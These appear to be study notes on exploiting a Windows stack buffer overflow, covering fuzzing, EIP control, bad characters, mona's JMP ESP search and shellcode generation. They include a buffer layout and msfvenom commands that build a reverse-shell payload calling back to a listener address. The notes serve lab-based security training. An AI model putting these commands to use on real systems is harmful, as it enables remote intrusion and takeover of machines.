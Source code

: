 Main ways of identifying flaws in applications:

1. If source code is available , then source code review 
2. If application is close sourced, then reverse engineering
3. Fuzzing to find bugs

**Fuzzing :**

Fuzzing involves sending malformed data into application input and watching for  
 unexpected crashes.

An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability



buffer = A\*2606 + &lt;Bufffer Overflow / EIP Address&gt; + shell code + "C" \* \(3500 -2606 -4 -351\)

**Steps:**

1. **Fuzzing and crash replication**
   1. Create a fuzzing script and find the exact location whr the crash occurs.\(Attach process 2 debugger & enable the putty\)
   2. Once debugger is attached pauses the process , press the play button to allow debugger to release the process and run normally
   3. run the fuzzer prog , at one point debugger pauses and allow use to analyze
   4. F2 to set the breakpoint
   5. Recreate the crash with the modified script and run it
   6. find the register values \( ESP and EIP\) after the pause of debugger
2. **Controlling the EIP** \(controls execution flow of the prog\)
   1. Locate the EIP position in our buffer
   2. Ruby Pattern creator tool - to create the unique buffer strings
   3. we could figure out unique four bytes in our buffer
   4. pattern-offset : gives position of the four unique bytes
   5. Now we replace the value with the user controlled bytes 
   6. Control the execution flow of the application , by changing the specific \(EIP\) Bytes
3. **ShellCode **\(User entered code\)
   1. once the shellcode is in memory we can redirect the execution of the application to this shell code
   2. we need to increase the size of the buffer in order to accommodate the shellcode \(3500\)
   3. ESP would be the best address to insert the shellcode , as it is easy to access the address
   4. Shellcode payload generator : 
4. **Bad Character**

   1. certain character are considered bad , should not be used in the buffer , return address, shellcode  ex: NOP, \r etc

   2. add all combinations of HEX character combinations to buffer

   3. Buffer = A + B + bad characters

   4. run and check whether any issue wt

5. **Redirecting Execution flow** :

   1. we found the location for our shellcode in the memory location tht is easily accessible by ESP Register

   2. we Control the EIP Register

   3. We figured wht characters are allowed in the buffer

   4. Now to redirect the execution to shellcode at the time of the crash

   5. to get tht we need to get the address of the ESP instead of B's to EIP.

   6. We need to find more generic way to find the ESP Address at the time of crash

   7. Application at run time loads certain libraries , dlls , drivers etc we can look at those to find instruction like \( Jmp ESP \)

6. **Mona \( third party debugger \)**

   1. !mona modules

   2. choose module : no Memory protection \(DEP, ASLR\) , no bad characters

   3. nasm\_shell script -- prints the opcode of any instruction

   4. mona module can search for any opcode in given memory range

   5. !mona find -s "\xff\xe4" -m slmfc.dll   --- &gt; given address has this instruction

   6. now we can use this address to make EIP point to ESP at runtime

   7. modify in skeleton exploit , replace B's with the obtained address and set the breakpoint \(F2\) in debugger also run regular by F7

7. **Shellcode payload generator**

   1. msfvenom -p windows/shell_reverse\_tcp LHOST=10.11.0.196 LPORT=443 -f c -a x86 --platform windows _
   2. lot of bad characters in the shellcode so we need to encode.
   3. add the bad character list to no allow 
   4. msfvenom -p windows/shell_reverse_\_tcp  LHOST=10.11.0.196 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d"  -e x86/shikata ga nai 
   5. bad character not sent over the wire 




